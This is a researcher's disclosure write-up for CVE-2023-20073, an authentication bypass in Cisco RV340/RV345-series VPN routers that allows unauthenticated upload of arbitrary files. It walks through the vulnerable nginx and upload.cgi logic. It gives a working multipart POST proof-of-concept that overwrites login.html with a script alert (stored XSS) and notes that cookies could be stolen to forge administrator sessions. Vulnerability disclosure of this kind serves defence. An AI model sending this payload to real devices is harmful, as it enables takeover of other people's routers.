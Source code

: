 # CVE-ID

[CVE-2023-20073](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-20073 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-20073")

# Vendor's disclosure and acknowledgement

[Cisco Security Advisory](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-sb-rv-afu-EXxwA65V "https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-sb-rv-afu-EXxwA65V")

[Cisco Bug ID - CSCwe04040](https://bst.cloudapps.cisco.com/bugsearch/bug/CSCwe04040 "https://bst.cloudapps.cisco.com/bugsearch/bug/CSCwe04040")

# Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**	Cisco RV340, RV340W, RV345, and RV345P VPN Router

**Affected firmware version:**	1.0.03.29 (the latest release version)

**Firmware download address:** 	[https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.29](https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.29 "https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.29")

# Overview

`Cisco RV340, RV340W, RV345, and RV345P VPN Router` have a `Authentication bypass vulnerability`. This vulnerability is caused by lax verification of the `Authentication` field and the value of `session` in the HTTP request header. The attacker can **upload arbitrary files and overwrite login.html, index.html and other important configuration files without authentication** through this vulnerability, causing some harm, such as `storage type XSS attack`.

# Vulnerability details

In the file `/etc/nginx/conf.d/rest.url.conf`, we can see that when accessing the URL of `/api/operations/ciscosb-file:form-file-upload`, it only judges **whether the `Authorization` field is empty**, and lack of materiality check.

![image](./pic/1.png)

If the Authorization field is not empty, we can upload the file to the `/tmp/upload` folder, and finally use `uwsgi` to call `upload.cgi` through `/form-file-upload`.

![image](./pic/2.png)
![image](./pic/3.png)

In the file `/www/cgi-bin/upload.cgi`, it first gets the delimiter of the `POST` request body content through `boundary=` (from this, we know that the `Content-Type` is `multipart/form-data; boundary=xxxx`).

![image](./pic/4.png)

Next, the fields sent in the `POST` body are separated and stored in variables respectively. The contents of `pathparam` and `fileparam` fields are stored in `v30` and `v31` variables respectively.

![image](./pic/5.png)

Then, the `Cookie` is separated by `sessionid=xxx` to get the `session`.

![image](./pic/6.png)
![image](./pic/7.png)

However, we can enter the function `sub_115EC` **without checking the `session`** (the first parameter is `pathparam` and the third parameter is `fileparam`).

![image](./pic/8.png)

In the `sub_115EC` function, when a1 (the value of the `pathparam` field) is `Portal`, **we can move any file that can be uploaded without authorization to the `/tmp/www` directory compulsorily**.

![image](./pic/9.png)
![image](./pic/10.png)

In addition, in the directly accessible `/www` folder, `index.html` and `login.html` are soft linked to files with the same name under `/tmp/www`.

![image](./pic/11.png)

In summary, the attacker can **upload arbitrary files and overwrite login.html, index.html and other important configuration files without authentication** through this vulnerability, causing some harm, such as `storage type XSS attack`.

# Poc

Send the following as a `POST` request to the URL `/api/operations/ciscosb-file:form-file-upload`. At the same time, we need to ensure that the `Content-Type` in the HTTP request header is `multipart/form-data`, the `Authorization` is not empty, and the `Cookie` starts with `sessionid=`, for example, Authorization is `123` and Cookie is `sessionid=abc`.

```
------hacked-by-winmt------
Content-Disposition: form-data; name="pathparam"

Portal
------hacked-by-winmt------
Content-Disposition: form-data; name="fileparam"

login.html
------hacked-by-winmt------
Content-Disposition: form-data; name="file"; filename="login.html"
Content-Type: application/octet-stream

<title>Hacked by winmt!</title>
<script>alert('Hacked by winmt!')</script>
------hacked-by-winmt------
```

# Attack Demo

Before the attack, access to `/login.html` was normal and remained the status of not logging in.

![image](./pic/12.png)

Attack through the above POC (although `Error Input` is displayed, the attack is successful) .

In the POC, we overwrite `login.html` as following.

```
<title>Hacked by winmt!</title>
<script>alert('Hacked by winmt!')</script>
```

![image](./pic/13.png)

After the attack, visit `/login.html` and we can see the page that has been tampered with arbitrarily. A `storage type XSS attack` is caused here.

![image](./pic/14.png)

# Supplement

The attacker can tamper with `index.html` and use the `storage type XSS attack` to obtain the `cookie` of the user who just logged in through `/login.html`. Then, he can forge cookies to perform operations that can only be performed by administrators, causing serious consequences.


